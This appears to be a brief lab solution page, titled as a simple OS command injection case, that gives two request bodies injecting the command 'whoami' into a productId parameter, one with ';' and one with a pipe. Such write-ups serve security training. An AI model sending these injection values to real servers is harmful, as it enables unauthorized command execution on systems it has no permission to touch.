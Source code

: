 ```yaml
---
layout: default
title: 1 - OS command injection, simple case
---
```

```bash
productId=1;whoami #&storeId=1
```

```bash
productId=1|whoami&storeId=1
```
